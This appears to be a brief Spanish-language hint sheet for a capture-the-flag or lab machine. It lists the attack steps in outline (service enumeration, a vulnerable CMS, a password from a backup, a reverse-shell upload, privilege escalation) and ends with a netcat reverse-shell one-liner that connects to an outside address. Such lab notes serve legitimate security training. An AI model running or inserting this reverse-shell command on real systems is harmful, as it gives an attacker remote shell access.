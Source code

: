 # Pistas

- Listar servicios, solo tiene hackeable el servicio web
- revisar el cms, tiene muchas vulnerabilidades
- hay un backup, recupera un password de ahi
- buscar la forma de subir un archivo con una reverse shell
- la escalada de privilegios esta ez


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.84.151 4445 >/tmp/f